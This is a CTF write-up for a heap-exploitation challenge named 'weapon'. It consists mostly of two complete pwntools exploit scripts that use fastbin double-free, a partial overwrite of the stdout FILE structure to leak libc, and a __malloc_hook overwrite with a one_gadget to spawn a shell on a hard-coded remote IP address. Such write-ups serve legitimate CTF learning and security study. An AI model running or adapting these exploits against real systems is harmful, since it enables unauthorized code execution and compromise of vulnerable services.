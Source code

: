 # weapon
this problem have two ways to solve it
[docker-enviroment](./docker-enviroment)

> the key to topic is to let a chunk have libc address in fd. and then we use a trick to leak a libc address ,finally use fastbin attack to get shell.

## first 
make a fake 0x80(more than that is ok) chunk and free it .so that we can get libc in fd and then edit the struct of stdout to leak.finally get shell.

```
from pwn import *
def cmd(c):
	p.sendlineafter(">> \n",str(c))
def Cmd(c):
	p.sendlineafter(">> ",str(c))
def add(size,idx,name="padding"):
	cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def free(idx):
	cmd(2)
	p.sendlineafter(":",str(idx))
def edit(idx,name):
	cmd(3)
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def Add(size,idx,name="padding"):
	Cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":",name)
def Free(idx):
	Cmd(2)
	p.sendlineafter(":",str(idx))

#p=process('./pwn')
p=remote("139.180.216.34",8888)
add(0x18,0)
add(0x18,1)
add(0x60,2,p64(0x0)+p64(0x21)+'\x00'*0x18+p64(0x21)*5)
add(0x60,3,p64(0x21)*12)
add(0x60,4)
add(0x60,5)
free(0)
free(1)
free(0)
free(1)
add(0x18,0,"\x50")
add(0x18,0,'\x00'*8)
add(0x18,0,"A")
add(0x18,0,'GET')

edit(2,p64(0x0)+p64(0x91))
free(0)
add(0x18,0)
add(0x60,0,'\xdd\x25')

free(4)
free(5)
free(4)
free(5)
add(0x60,4,'\x70\x70')
#gdb.attach(p,'')
add(0x60,0)
add(0x60,0)
add(0x60,0)
add(0x60,0,'\x00'*(0x40+3-0x10)+p64(0x1800)+'\x00'*0x19)
p.read(0x40)

base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd2600-0x7ffff7a0d000)
log.warning(hex(base))
#raw_input()
libc=ELF("./pwn").libc
Add(0x60,0)
Add(0x60,1)
Add(0x18,2)
Free(0)
Free(1)
Free(0)
Add(0x60,0,p64(libc.sym['__malloc_hook']+base-35))
Add(0x60,0)
Add(0x60,0)
one=0xf02a4
Add(0x60,0,'\x00'*19+p64(one+base))

Free(1)
Free(1)

p.interactive()

```

## second 
when we use scanf to input something .if you input lots of things ,it will malloc a 0x400 chunk to keep it temporarily。if we keep some fastbin when it malloc.it will be put into smallbin.now we also have libc address.

```
from pwn import *
context.log_level = "debug"
#p = process("./weapon")
p = remote("139.180.216.34",8888)
elf = ELF("./weapon")
a = elf.libc
#gdb.attach(p)
def create(idx,size,content):
	p.recvuntil(">> \n")
	p.sendline(str(1))
	p.recvuntil("weapon: ")
	p.sendline(str(size))
	p.recvuntil("index: ")
	p.sendline(str(idx))
	p.recvuntil("name:")
	p.send(content)
def delete(idx):
	p.recvuntil(">> ")
	p.sendline(str(2))
	p.recvuntil("idx :")
	p.sendline(str(idx))

def edit(idx,content):
	p.recvuntil(">> ")
	p.sendline(str(3))
	p.recvuntil("idx: ")
	p.sendline(str(idx))
	p.recvuntil("content:\n")
	p.send(content)

create(0,0x60,"a")
create(1,0x60,"b")
create(2,0x60,"c")
delete(0)
delete(1)
p.recvuntil(">> ")
p.sendline("1"*0x1000)
create(3,0x60,"\xdd\x25")
create(4,0x60,"e")
delete(2)
delete(1)
edit(1,"\x00")
create(5,0x60,"f")
create(6,0x60,"f")
file_struct = p64(0xfbad1887)+p64(0)*3+"\x58"
create(7,0x60,"\x00"*0x33+file_struct)
libc_addr =  u64(p.recvuntil("\x00",drop=True)[1:].ljust(8,"\x00"))-a.symbols["_IO_2_1_stdout_"]-131
print hex(libc_addr)
delete(6)
edit(6,p64(libc_addr+a.symbols["__malloc_hook"]-0x23))

create(8,0x60,"t")

create(9,0x60,"a"*0x13+p64(libc_addr+0xf1147))
p.recvuntil(">> \n")
p.sendline(str(1))
p.recvuntil("weapon: ")
p.sendline(str(0x60))
p.recvuntil("index: ")
p.sendline(str(6))

p.interactive()
```
